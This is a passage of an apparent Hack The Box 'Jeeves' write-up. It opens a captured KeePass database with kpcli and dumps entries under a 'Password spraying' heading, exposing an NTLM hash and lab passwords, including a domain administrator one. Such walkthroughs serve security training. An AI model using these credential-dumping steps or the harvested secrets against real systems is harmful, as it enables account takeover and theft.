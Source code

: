 I will use the `kpcli` to extract passwords from the database. If you dont have it you can install by issuing ` sudo apt install kpcli`

```sh
┌─[george@parrot]─[~/HTB/jeeves/www]
└──╼ $ kpcli --kdb CEH.kdbx
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```
Lets show everything on the database.

```sh
kpcli:/> find .
Searching for "." ...
 - 8 matches found and placed into /_found/
Would you like to list them now? [y/N]
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                                   www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                               www.eccouncil.org/programs/cer
4. It's a secret                                 localhost:8180/secret.jsp
5. Jenkins admin                                            localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                             www.walmart.com
```
I will grab all the passwords using `show -f {number}`.

### Password spraying

```sh
kpcli:/> show -f 0          

 Path: /CEH/
Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL:                    
Notes:    

kpcli:/> show -f 1

 Path: /CEH/
Title: Bank of America
Uname: Michael321
 Pass: 12345
  URL: https://www.bankofamerica.com
Notes:         
kpcli:/> show -f 2           

 Path: /CEH/
Title: DC Recovery PW
Uname: administrator
 Pass: S1TjAtJHKsugh9oC4VZl
  URL:
Notes:  
kpcli:/> show -f 3

 Path: /CEH/
Title: EC-Council
Uname: hackerman123
```